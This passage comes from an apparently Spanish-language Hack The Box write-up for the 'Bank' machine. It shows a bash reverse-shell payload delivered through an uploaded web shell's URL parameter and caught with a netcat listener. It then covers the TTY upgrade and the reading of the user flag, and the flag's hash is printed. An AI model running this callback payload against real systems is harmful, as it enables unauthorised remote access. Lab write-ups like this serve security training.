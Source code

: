 Ahora me gustaría obtener una reverse shell y así entrar al sistema objetivo. En la URL:

```plaintext
http://bank.htb/uploads/pwn.htb?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"

# Antes de enviar es mejor sustituir el & por %26, su código en hexadecimal. La URL no entiende muy bien el &
http://bank.htb/uploads/pwn.htb?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261"
```
Antes de mandar lo de arriba nos ponemos en escucha:

```sh
> nc -nlvp 443
```

Y ahora nos lanzamos la reverse shell.

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 37126
bash: cannot set terminal process group (1071): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/var/www/bank/uploads$ whoami
whoami
www-data
```

Realizaremos un tratamiento de la tty ahora. Nuestra tty no es full interactive así que vamos a mejorarla.

```sh
script /dev/null -c bash
# Pulsamos Ctrl + z

# Ahora estaríamos en máquin local
stty raw -echo; fg
reset xterm

# Volvemos a máquina remota
export TERM=xterm  # Como tipo terminal xterm
export SHELL=bash

# Por último las proporciones, puedes averiguarlas con el comando "stty size" en local
www-data@bank:/var/www/bank/uploads$ stty rows 38 columns 184
```

Consigamos la primera flag:

```sh
www-data@bank:/var/www/bank/uploads$ cd /home
www-data@bank:/home$ ls
chris
www-data@bank:/home$ cd chris
www-data@bank:/home/chris$ ls -la
total 28
drwxr-xr-x 3 chris chris 4096 Jan 11  2021 .
drwxr-xr-x 3 root  root  4096 Jan 11  2021 ..
lrwxrwxrwx 1 root  root     9 Jan 11  2021 .bash_history -> /dev/null
-rw-r--r-- 1 chris chris  220 May 28  2017 .bash_logout
-rw-r--r-- 1 chris chris 3637 May 28  2017 .bashrc
drwx------ 2 chris chris 4096 Jan 11  2021 .cache
-rw-r--r-- 1 chris chris  675 May 28  2017 .profile
-r--r--r-- 1 chris chris   33 May 29 09:34 user.txt
www-data@bank:/home/chris$ cat user.txt
d90174e457a65c4f40877930fe9742cb
```
